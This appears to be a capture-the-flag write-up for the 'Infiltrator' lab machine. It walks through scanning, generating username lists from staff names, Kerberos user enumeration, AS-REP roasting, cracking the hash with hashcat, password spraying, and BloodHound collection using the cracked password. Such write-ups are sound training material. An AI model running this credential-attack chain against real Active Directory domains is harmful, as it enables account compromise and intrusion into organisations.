






# Infiltrator

## Rustscan 

```bash
 rustscan -a 10.10.11.31 --ulimit 9000 -- -sCV -A  
```




`DNS:dc01.infiltrator.htb`



Enumerating team members


```txt
David Anderson
Olivia Martinez
Kevin Turner
Amanda Walker
Marcus Harris
Lauren Clark
Ethan Rodriguez
```
python script to make usernames

```python
# List of names
names = [
    "David Anderson",
    "Olivia Martinez",
    "Kevin Turner",
    "Amanda Walker",
    "Marcus Harris",
    "Lauren Clark",
    "Ethan Rodriguez"
]

# Generate usernames
def generate_usernames(name):
    first_name, last_name = name.lower().split()
    usernames = [
        f"{first_name}.{last_name}",
        f"{first_name[0]}{last_name}",
        f"{first_name}_{last_name}",
        f"{first_name[0]}{last_name[0]}",
        f"{first_name[0]}.{last_name}",
        f"{first_name}.{last_name[0]}",
        f"{first_name}{last_name}"
    ]
    return usernames

# Generate and write the username list
with open("users.txt", "w") as f:
    all_usernames = []
    for name in names:
        all_usernames.extend(generate_usernames(name))
    
    # Remove duplicates and sort
    all_usernames = sorted(set(all_usernames))
    
    # Output result with domain suffix
    for username in all_usernames:
        f.write(f"{username}@infiltrator.htb\n")

print("Done")
```

## Kerbrute 

```bash
./kerbrute userenum -d "infiltrator.htb" users.txt --dc "dc01.infiltrator.htb"     
```


## preauth 

```bash
impacket-GetNPUsers infiltrator.htb/ -usersfile users.txt -dc-ip dc01.infiltrator.htb     
```




## hashcat 

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt 
```



`WAT?watismypass!`

## checking password

```bash
./kerbrute passwordspray -d "infiltrator.htb" users.txt --dc "dc01.infiltrator.htb" "WAT?watismypass!" -v  
```
```txt
2024/09/03 13:07:28 >  [!] d.anderson@infiltrator.htb:WAT?watismypass! - [Root cause: KDC_Error] KDC_Error: AS Exchange Error: kerberos error response from KDC: KRB Error: (37) KRB_AP_ERR_SKEW Clock skew too great
---snip---
2024/09/03 13:07:28 >  [!] l.clark@infiltrator.htb:WAT?watismypass! - Got AS-REP (no pre-auth) but couldn't decrypt - bad password

```

`d.anderson@infiltrator.htb` account is restricted because of


+ Logon Hours: The account might be restricted to log in only during specific hours or days.

+ Logon Workstations: The account might be restricted to log in only from specific workstations or computers.

+ Account Disabled: The account might be disabled or not allowed to log in.

+ Password Expiration or Change Requirement: The account might require the password to be changed on the next login, or the password has expired.

+ Domain Policy: There might be a domain policy in place that restricts the account from logging in under certain conditions (e.g., time of day, specific IP ranges).


## domain info collection
```bash
bloodhound-python -u 'l.clark' -p 'WAT?watismypass!' -d 'infiltrator.htb' -gc 'dc01.infiltrator.htb' -ns 10.10.11.31 -c all --zip        
```
```bash
bloodhound-python -u 'd.anderson' -p 'WAT?watismypass!' -d 'infiltrator.htb' -gc 'dc01.infiltrator.htb' -ns 10.10.11.31 -c all --zip        
```

